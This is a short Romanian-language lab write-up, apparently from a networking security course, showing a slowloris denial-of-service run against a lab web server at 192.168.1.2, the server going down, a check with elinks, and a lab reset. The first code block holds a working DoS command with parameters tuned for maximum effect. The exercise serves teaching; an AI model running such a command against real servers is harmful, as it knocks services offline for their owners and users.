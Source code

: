 ```sh
# Din mai multe terminale (dureaza ceva tho)
root@green:~# slowloris --port 80 --sockets 1000 -v --sleeptime 1 192.168.1.2
```

Setez un numar de socket-uri cat mai mare, si un timp cat mai mic intre pachete.

> Aparent, **sleeptime**-ul trebuie sa fie musai **int**.


Dupa cateva momente, serverul pica.

...si asa ramane.
O alta rulare a comenzii `elinks http://192.168.1.2/` imi arata mesajul **Request sent**.


![img](Images/Screenshot%20from%202024-12-12%2001-07-22.png)


```sh
# Resetam topologia
root@host:~# start_lab mitm
```



